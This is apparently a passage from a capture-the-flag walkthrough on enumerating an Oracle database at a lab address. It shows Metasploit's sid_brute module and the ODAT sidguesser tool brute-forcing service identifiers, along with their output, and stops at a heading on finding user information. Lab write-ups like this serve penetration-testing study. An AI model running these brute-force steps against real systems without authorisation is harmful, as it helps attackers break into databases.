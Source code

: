 First we need to find SID.

> **What is a SID?** The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.

To find the SID we can use this module from Metasploit.

```bash
msf5 auxiliary(admin/oracle/sid_brute) > options

Module options (auxiliary/admin/oracle/sid_brute):

   Name     Current Setting                                         Required  Description
   ----     ---------------                                         --------  -----------
   RHOSTS                                                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    1521                                                    yes       The target port (TCP)
   SIDFILE  /usr/share/metasploit-framework/data/wordlists/sid.txt  no        The file that contains a list of sids.
   SLEEP    1                                                       no        Sleep() amount between each request.

msf5 auxiliary(admin/oracle/sid_brute) > set RHOSTS 10.10.10.82
RHOSTS => 10.10.10.82
msf5 auxiliary(admin/oracle/sid_brute) > run
[*] Running module against 10.10.10.82

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
 [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
```

So we got 2 SID `XE` and `CLRExtProc`.

### Finding SID using ODAT

So we get the same SID we got from Metasploit too

```bash
root@kali:/opt/odat# python3 odat.py sidguesser -s 10.10.10.82 -p 1521
odat.py:52: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...         
[+] 'XEXDB' is a valid SID. Continue...
```

### Finding Users Information
